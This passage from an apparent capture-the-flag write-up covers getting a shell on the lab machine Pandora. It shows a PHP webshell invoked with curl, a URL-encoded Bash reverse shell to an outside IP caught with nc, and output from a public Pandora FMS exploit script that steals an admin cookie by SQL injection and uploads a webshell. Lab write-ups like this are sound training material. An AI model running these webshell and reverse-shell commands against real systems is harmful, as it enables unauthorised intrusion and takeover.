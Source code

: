 

Either way, the webshell works:



    oxdf@hacky$ curl http://pandora.panda.htb:9001/pandora_console/images/0xdf.php?cmd=id
    uid=1000(matt) gid=1000(matt) groups=1000(matt)



#### Shell

To get a shell, I'll just send it a Bash reverse shell:



    oxdf@hacky$ curl 'http://pandora.panda.htb:9001/pandora_console/images/0xdf.php?cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.6/443+0>%261"'



That hangs, but at `nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.136 44650
    bash: cannot set terminal process group (910): Inappropriate ioctl for device
    bash: no job control in this shell
    matt@pandora:/var/www/pandora/pandora_console/images$ 



#### Script

There's a script from the SonarSource post authors that does all these
steps for you [on
GitHub](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated).
Running it fetches the admin cookie, and then uploads a webshell, and
runs commands through it:



    oxdf@hacky$ python sqlpwn.py -t 127.0.0.1:9001
    URL:  http://127.0.0.1:9001/pandora_console
    [+] Sending Injection Payload
    [+] Requesting Session
    [+] Admin Session Cookie : 3hif5avdqp1hms9fl52krjmrtb
    [+] Sending Payload 
    [+] Respose : 200
    [+] Pwned :)
    [+] If you want manual Control : http://127.0.0.1:9001/pandora_console/images/pwn.php?test=
    CMD > id
    uid=1000(matt) gid=1000(matt) groups=1000(matt)



## Shell as root

### Enumeration
